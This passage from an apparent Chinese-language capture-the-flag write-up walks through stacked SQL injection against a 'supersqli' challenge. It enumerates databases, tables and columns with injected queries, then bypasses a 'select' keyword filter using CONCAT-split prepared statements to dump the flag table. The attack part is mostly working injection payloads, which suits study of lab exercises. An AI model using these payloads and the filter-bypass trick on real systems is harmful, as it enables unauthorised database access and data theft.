 发现过滤了 select，也无法通过大小写绕过： <img src="https://img-blog.csdnimg.cn/20210607224137862.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">5、使用堆叠注入获取数据库名称：

```
?inject=1';show databases;#


```

效果如下： <img src="https://img-blog.csdnimg.cn/20210607225058179.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">6、获取数据库表信息：

```
?inject=1';show tables;#


```

执行效果如下： <img src="https://img-blog.csdnimg.cn/2021060722523440.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">7、查看列信息：

```
?inject=1';show columns from `1919810931114514`;#


```

执行效果如下： <img src="https://img-blog.csdnimg.cn/20210607230035984.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">8、综上我们可以得知 flag 存在于 supersqli 数据库中的 1919810931114514 表的 flag 字段。接下来要读取此字段内的数据，我们要执行的目标语句是：

```
select * from `1919810931114514`;


```

这里需要绕过 select 的限制，我们可以使用预编译的方式。预编译相关语法如下：

```
set       用于设置变量名和值
prepare   用于预备一个语句，并赋予名称，以后可以引用该语句
execute   执行语句
deallocate prepare 用来释放掉预处理的语句


```

直接看 Payload 就懂了：

```
?inject=1';set @sql = CONCAT('se','lect * from `1919810931114514`;');prepare stmt from @sql;EXECUTE stmt;#
拆分开来如下：
?inject=1';
set @sql = CONCAT('se','lect * from `1919810931114514`;');
prepare stmt from @sql;
EXECUTE stmt;
#


```
